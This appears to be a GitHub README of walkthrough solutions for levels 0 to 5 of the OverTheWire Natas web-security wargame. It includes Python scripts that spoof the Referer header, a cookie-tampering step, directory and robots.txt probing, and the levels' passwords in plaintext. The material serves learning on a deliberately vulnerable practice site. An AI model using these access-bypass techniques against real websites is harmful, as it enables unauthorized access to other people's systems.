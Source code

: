 # Natas_Solutions

[![LICENSE](https://img.shields.io/badge/LICENSE-GPL--3.0-green)](https://github.com/rip-charon/Natas_Solutions/blob/main/LICENSE)

The Natas wargame is an online game offered by the OverTheWire community. This wargame is for the ones that want to learn the basics of serverside web-security. You can see the most common bugs in this game.  Each level has access to the password of the next level. Your job is to obtain that next password and level up.

## Natas 00 Solution

> **URL : <http://natas0.natas.labs.overthewire.org>** <br /> **Credentials : natas0:natas0**

This one is simple, just check the source of the page :

```html
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```

## Natas 01 Solution

> **URL : <http://natas1.natas.labs.overthewire.org>** <br /> **Credentials : natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto**

In this level the right click has been blocked, but to display the source you can simply use the browser shortcut to display the code. As I’m using Chrome it’s Option+Command+U.

```html
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```

## Natas 02 Solution

> **URL : URL : <http://natas2.natas.labs.overthewire.org>** <br /> **Credentials : natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi**

If you check the source, you will see a link to an image file :

```html
<img src="files/pixel.png">
```

Just remove the filename and check <http://natas2.natas.labs.overthewire.org/files/> to get the directory contents. You’ll find the password in the users.txt file.

```bash
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```

## Natas 03 Solution

> **URL : URL : <http://natas3.natas.labs.overthewire.org>** <br /> **Credentials : natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14**

In practice, **robots.txt** files indicate whether certain user agents can or cannot crawl parts of a website. Nowadays, it exists on most of the websites.

Let’s check the robots.txt file on this page (<http://natas3.natas.labs.overthewire.org/robots.txt>), you’ll find the folder containing the password :

```bash
User-agent: *
Disallow: /s3cr3t/
```

Browse the folder, and check the **users.txt** file.

```bash
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## Natas 04 Solution

> **URL : URL : <http://natas4.natas.labs.overthewire.org>** <br /> **Credentials : natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ**

When you try to login, you get the following error message:

```python
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 
```

You can solve this one by changing the referer of the request with a simple Python script:

```python
import requests

url = "http://natas4.natas.labs.overthewire.org/"
referer = "http://natas5.natas.labs.overthewire.org/"

s = requests.Session()
s.auth = ('natas4', 'Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ')
s.headers.update({'referer': referer})
r = s.get(url)

print(r.text)
```

Grab the password and go to the next level :

```bash
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

## Natas 05 Solution

> **URL : URL : <http://natas5.natas.labs.overthewire.org>** <br /> **Credentials : natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**

When we try to login, we get the following error message :

```python
Access disallowed. You are not logged in
```

Let’s check the headers of the HTTP response with Python :

```python
import requests

url = "http://natas5.natas.labs.overthewire.org/"
s = requests.Session()
s.auth = ('natas5', 'iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq')
r = s.get(url)

print(r.headers)
```

Here is the response :

```json
{'Date': 'Fri, 29 Mar 2019 20:18:20 GMT', 'Server': 'Apache/2.4.10 (Debian)', 'Set-Cookie': 'loggedin=0', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '367', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}
```

As we can see we got a cookie **‘Set-Cookie’: ‘loggedin=0’**. We can try to modify it with the value **1** and refresh the page. This can be done directly in **Chrome** by using the Javascript Console.

![alt text](https://axcheron.github.io/images/otw/edit_cookie.png)

Done !

```python
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1s
```
